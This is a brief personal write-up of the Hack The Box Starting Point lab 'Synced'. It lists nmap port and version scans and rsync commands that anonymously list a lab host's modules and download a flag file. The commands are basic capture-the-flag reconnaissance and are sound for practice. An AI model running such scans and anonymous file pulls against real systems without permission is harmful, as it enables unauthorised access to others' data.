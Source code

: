 ## Lab Title: Synced
- Date: 2025-08-02
- Duration: ~30 minutes

### Platform: HTB – Starting Point > Tier 0

### 1. Scenario Summary
- To use Rsync with remote machine >> retrieve files & access anonymously

### 2. Findings
- Rsync         >> Remote file transfer & file synchronisation protocol >> with port `873`
- nmap          >> enumeration
    - `nmap -Pn $ip -p- -T4` >> find open ports
    - `nmap -Pn $ip -sV -p T:873` find the service & version
- rsync         >> command utility used to communicate via Rsync protocol
    - For anonymous access >> you do not need to give any credentials
        - `rsync rsync://10.192.29.29/ --list-only` to connect anonymously & list file/shares on the remote target
            - I found that `public` module is available to be accessed
        - `rsync rsync://10.192.29.29/public/` >> I see there flag.txt
        - `rsync rsync://10.192.29.29/public/flag.txt .` >> I downloaded flag.txt in my current dir

### 3. Idea
- Once enumeration is done, rsync is available >> time to use it
- connection to remote host anonymously >> find available shares >>
- Connect to shares >> download them
